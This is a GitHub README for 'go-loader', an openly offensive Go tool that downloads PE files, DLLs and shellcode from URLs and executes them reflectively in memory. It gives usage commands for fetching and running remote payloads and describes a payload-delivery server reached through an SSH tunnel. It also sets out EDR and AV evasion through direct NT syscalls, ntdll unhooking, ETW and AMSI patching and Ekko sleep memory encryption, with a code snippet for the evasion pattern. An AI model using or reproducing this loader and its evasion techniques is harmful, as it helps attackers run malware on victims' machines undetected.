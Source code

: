 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## demo
![demo (2)](https://github.com/user-attachments/assets/587895f5-7d6c-4825-a4da-d61796546cbe)


## usage


```bash
# execute pe file from url
go run main.go -pe -url https://example.com/calc.exe

# execute shellcode from url  
go run main.go -shellcode -url https://example.com/shellcode.bin

# execute dll from url with specific function
go run main.go -dll -url https://example.com/mydll.dll -func MyFunction

# build
go build -o loader.exe cmd/main.go
```

## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls now go through custom nt api wrappers (ntallocatevirtualmemory, ntwritevirtualmemory, ntreadvirtualmemory, ntprotectvirtualmemory, ntfreevirtualmemory, ntunmapviewofsection, ntcreatethreadex, ntwaitforsingleobject, ntclose, ntinjectselfshellcode) instead of high-level windows apis for better opsec and edr evasion. the loader now implements ekko sleep functionality for evasive sleeping during execution - this technique suspends all threads in the current process except the main thread, encrypts the entire process image in memory using systemfunction032 (rc4), sleeps for a specified duration, then decrypts the image and resumes all threads, making static memory analysis much more difficult during sleep periods. you can also encrypt the global buffer containing the downloaded pe/dll/shellcode easily with GetGlobalBufferRegion(), see main.go for example. the syscall wrappers (now in plan9 instead of nasm) provide direct nt api access after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary and a LOT of syscalls in ekko implementation, also a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys. the loader also now offers a server that parses a payload from disk, chunks, encrypts, and sends one by one to requesting client to be reflectively loaded and executed

> ekko implementation causes intermittent segfaults during dll loading, likely due to rop chain complexity + golang.

## to use the loader
```bash
## navigate to go-server/cmd
cd go-server/cmd
## in another shell, run the tcp tunnel ssh command included as a comment in server.go
## replace the const link with the generated link
## then run the server
go run server.go
## this will generate a payloads folder, move your payloads into them
## now navigate to go-loader/cmd\
cd ../cmd
go build -ldflags="-w -s" -trimpath -o loader.exe
## then to run with a payload from /payloads
./loader.exe -pe|dll|shellcode -url http://<generated-link>/payloads/filename.exe
```

## use this pattern for a more reliable form of evasion

```go
// import pkg/net and pkg/patch
patch.ETW
patch.AMSI
addr, size, err := net.GetGlobalBufferRegion()
if err != nil {
	log.Fatalf("[ERROR] Failed to get global buffer region: %v\n", err)
}

key, err := ekko.GenerateKey(16)
if err != nil {
	log.Fatalf("[ERROR] Failed to generate key: %v\n", err)
}

err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to encrypt memory region: %v\n", err)
}

// we just call it again to decrypt bc symmetric 
err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to decrypt memory region: %v\n", err)
}

```

## credits

- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
- [@scriptchildie/goEkko](https://github.com/scriptchildie/goEkko) for ekko sleep implementation
